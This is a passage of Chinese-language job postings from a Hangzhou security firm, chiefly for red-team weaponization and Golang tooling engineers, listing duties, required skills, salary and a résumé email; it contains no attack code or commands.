8. 熟悉常见编程语言中的至少一种（Asp.net、Python、php、java）  
【加分项】  
1. 具备良好的英语文档阅读能力；  
2. 曾参加过技术沙龙担任嘉宾进行技术分享；  
3. 具有 CISSP、CISA、CSSLP、ISO27001、ITIL、PMP、COBIT、Security+、CISP、OSCP 等安全相关资质者；  
4. 具有大型 SRC 漏洞提交经验、获得年度表彰、大型 CTF 夺得名次者；  
5. 开发过安全相关的开源项目；  
6. 具备良好的人际沟通、协调能力、分析和解决问题的能力者优先；  
7. 个人技术博客；  
8. 在优质社区投稿过文章；

岗位：**安全红队武器自动化工程师**  
薪资：13-30K  
工作年限：2 年 +  
工作地点：杭州（总部）  
【岗位职责】  
1. 负责红蓝对抗中的武器化落地与研究；  
2. 平台化建设；  
3. 安全研究落地。  
【岗位要求】  
1. 熟练使用 Python、java、c/c++ 等至少一门语言作为主要开发语言；  
2. 熟练使用 Django、flask 等常用 web 开发框架、以及熟练使用 mysql、mongoDB、redis 等数据存储方案；  
3: 熟悉域安全以及内网横向渗透、常见 web 等漏洞原理；  
4. 对安全技术有浓厚的兴趣及热情，有主观研究和学习的动力；  
5. 具备正向价值观、良好的团队协作能力和较强的问题解决能力，善于沟通、乐于分享。  
【加分项】  
1. 有高并发 tcp 服务、分布式等相关经验者优先；  
2. 在 github 上有开源安全产品优先；  
3: 有过安全开发经验、独自分析过相关开源安全工具、以及参与开发过相关后渗透框架等优先；  
4. 在 freebuf、安全客、先知等安全平台分享过相关技术文章优先；  
5. 具备良好的英语文档阅读能力。

简历投递至

bountyteam@dbappsecurity.com.cn

岗位：**红队武器化 Golang 开发工程师**  

薪资：13-30K  
工作年限：2 年 +  
工作地点：杭州（总部）  
【岗位职责】  
1. 负责红蓝对抗中的武器化落地与研究；  
2. 平台化建设；  
3. 安全研究落地。  
【岗位要求】  
1. 掌握 C/C++/Java/Go/Python/JavaScript 等至少一门语言作为主要开发语言；  
2. 熟练使用 Gin、Beego、Echo 等常用 web 开发框架、熟悉 MySQL、Redis、MongoDB 等主流数据库结构的设计, 有独立部署调优经验；  
3. 了解 docker，能进行简单的项目部署；  
3. 熟悉常见 web 漏洞原理，并能写出对应的利用工具；  
4. 熟悉 TCP/IP 协议的基本运作原理；  
5. 对安全技术与开发技术有浓厚的兴趣及热情，有主观研究和学习的动力，具备正向价值观、良好的团队协作能力和较强的问题解决能力，善于沟通、乐于分享。  
【加分项】  
1. 有高并发 tcp 服务、分布式、消息队列等相关经验者优先；  
2. 在 github 上有开源安全产品优先；  
3: 有过安全开发经验、独自分析过相关开源安全工具、以及参与开发过相关后渗透框架等优先；  
4. 在 freebuf、安全客、先知等安全平台分享过相关技术文章优先；  
5. 具备良好的英语文档阅读能力。  
简历投递至

bountyteam@dbappsecurity.com.cn

END


**长按识别二维码关注我们**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
